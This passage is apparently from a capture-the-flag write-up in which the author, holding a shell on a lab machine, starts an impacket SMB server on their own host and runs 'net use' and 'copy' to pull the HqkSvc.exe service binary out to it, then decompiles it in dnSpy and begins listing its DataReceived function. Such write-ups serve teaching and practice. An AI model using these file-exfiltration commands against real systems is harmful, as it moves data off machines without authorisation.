 I used my shell to grab a copy of `HqkSvc.exe` over SMB (first started the
server with `smbserver.py s . -username df -password df -smb2support`):

    
    
    C:\PROGRA~1\HQK>net use \\10.10.14.24\s /u:df df
    The command completed successfully.
    C:\PROGRA~1\HQK>copy HqkSvc.exe \\10.10.14.24\s\
            1 file(s) copied.
    

Opening it in dnSpy, it wasn’t quite as simple, but eventually I found the
function, `DataReceived`:

![image-20200605202225518](https://0xdfimages.gitlab.io/img/image-20200605202225518.png)

The code for this function:

    
    
    private void DataReceived(IAsyncResult Result)
    {
      try
      {
        if (!this._ShuttingDown)
    	{
          int num = 0;
          bool flag = false;
          try
          {
            if (!this.TcpIpClient.Connected)
    		{
              flag = true;
    		}
    		num = this._Stream.EndRead(Result);
    		if (num == 0)
    		{
              flag = true;
    		}
          }
          catch (Exception ex)
          {
    		flag = true;
          }
          if (flag)
          {
            this.Close();
          }
          else
          {
    		string @string = Encoding.ASCII.GetString(this._CurrentBuffer, 0, num);
    		if (!string.IsNullOrEmpty(@string))
            {
              if (Operators.CompareString(@string, "\t", false) != 0)
              {
                if (Operators.CompareString(@string, "\b", false) == 0 || Strings.Asc(@string[0]) == 127)
    			{
                  if (this._CurrentInput.Length > 0)
                  {
    				this._CurrentInput.Remove(checked(this._CurrentInput.Length - 1), 1);
    				this._Writer.Write(" \b");
                  }
    			}
    			else
    			{
                  this._CurrentInput.Append(@string);
                  if (this._CurrentInput.Length > 2048)